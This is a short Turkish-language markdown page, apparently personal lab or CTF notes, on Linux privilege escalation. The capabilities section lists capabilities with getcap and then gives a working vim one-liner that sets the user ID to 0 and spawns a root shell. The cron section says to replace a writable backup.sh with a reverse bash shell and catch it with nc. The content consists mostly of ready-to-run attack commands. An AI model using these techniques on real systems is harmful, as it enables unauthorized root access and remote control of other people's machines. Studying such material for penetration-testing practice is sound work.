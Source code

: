 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

